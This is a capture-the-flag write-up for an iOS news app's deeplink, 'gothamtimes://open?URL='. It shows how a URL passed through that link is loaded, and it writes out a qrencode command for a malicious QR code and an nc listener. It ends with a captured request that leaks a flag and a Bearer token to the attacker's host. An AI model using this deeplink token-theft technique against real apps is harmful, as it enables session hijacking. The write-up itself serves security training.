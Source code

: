 So, the **deeplink** looks like `gothamtimes://open?URL=`

This could lead to an **Open Redirect** or **Arbitrary URL load into Application** where we can **theft data (i.e. token)**.

We just need create an account, login, and then, open a browser or generate a QR code with the app running, then, go to any URL like
`gothamtimes://open?URL=http://192.168.1.75:8080`

```bash
qrencode "gothamtimes://open?url=http://192.168.1.75:8080" -o QR.png
```
Setup the **nc**
```bash
nc -nlv 8080
```

Scan the QR code and intercept the request with **burpsuite** and you'll get the **flag** and **token** (or in your *nc* session)
```HTTP
GET / HTTP/1.1
Host: 192.168.1.75:8080
Connection: keep-alive
flag: FLAG{d33ply-l1nk3d(t0-w3bk1t}
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 16_7_10 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E148
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImxhdXRhcm8iLCJpYXQiOjE3MzkxNDMwNzd9.X4gJnMic930UZe3w94TCx7xzYs0mw17Fqg_AHM2F7VY
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Accept-Encoding: gzip, deflate, br
```

I hope you found it useful (: